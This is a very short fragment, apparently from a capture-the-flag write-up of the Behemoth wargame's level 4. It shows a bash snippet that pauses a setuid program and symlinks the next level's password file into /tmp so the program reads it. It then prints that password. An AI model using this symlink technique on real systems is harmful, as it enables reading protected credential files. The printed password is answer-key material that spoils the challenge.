 ```bash
./behemoth4 & PID=$!; kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
```

behemoth5:aizeeshing
